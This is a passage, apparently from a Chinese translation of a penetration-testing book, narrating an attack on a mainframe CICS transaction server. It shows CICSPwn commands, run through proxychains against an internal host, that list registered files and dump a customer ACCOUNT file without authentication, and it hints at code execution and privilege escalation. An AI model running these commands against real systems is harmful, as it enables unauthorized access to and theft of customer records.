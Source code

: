 事实证明我们确实可以访问CEMT和CECI……那么，让我们开始进入主题，列出当前在CICS中注册的文件:
```
FrontGun > proxychains python cicspwn.py 10.10.40.33 23 -a CUST1 -f
```
![](./Chap6/18.reg.jpg)

我们认出了一些我们之前看到的档案。通过通过CICSPwn查看它们，我们避免了前面处理的转换问题:
```
10.10.20.118 > python cicspwn.py 10.10.40.33 23 -a CUST1 -–get-file ACCOUNT
```
![](./Chap6/19.listfiles.jpg)

CICSPwn在文件上设置正确的选项（打开、可读和启用），然后几乎神奇地显示整个内容.

不可置信，在最不可能被攻破的机器上客户记录完全没有认证。

内心好奇的黑客想知道是否可以更进一步，执行代码，提升权限…。是的，CICSPwn提供了一组漂亮的选项，但是您必须自己阅读这些选项，因为我们已经正式完成了最终目标！



> 翻译：Ryan  2019/8/16





